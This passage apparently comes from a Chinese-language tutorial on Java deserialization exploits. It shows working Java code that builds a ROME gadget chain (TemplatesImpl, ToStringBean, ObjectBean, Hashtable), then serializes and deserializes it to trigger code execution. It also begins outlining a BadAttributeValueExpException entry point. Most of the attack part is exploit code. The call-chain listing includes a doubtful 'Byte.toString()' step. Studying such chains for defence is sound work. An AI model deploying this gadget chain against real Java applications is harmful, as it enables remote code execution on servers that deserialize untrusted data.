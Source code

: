 ```java
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        ToStringBean toStringBean = new ToStringBean(Templates.class, fakeTemplates);//防止提前触发
//        toStringBean.toString();
//        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean, "godown");
        Field toStringBean_objField = ToStringBean.class.getDeclaredField("_obj");
        toStringBean_objField.setAccessible(true);
        toStringBean_objField.set(toStringBean, templatesClass);
        serialize(hashtable);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```



### BadAttributeValueExpException

CC5入口

利用链

```java
BadAttributeValueExpException.readObject()
Byte.toString()
ToStringBean.toString()
ToStringBean.toString(String)
TemplatesImpl.getOutputProperties()
```

注意构造函数的三元表达式意思为：将输入参数 val 转换为字符串并赋值给 this.val。若 val 为 null，则 this.val 也设为 null。所以这里不能传ToStringBean。传了的话val值为ToStringBean.toString()，然后链式触发到报错
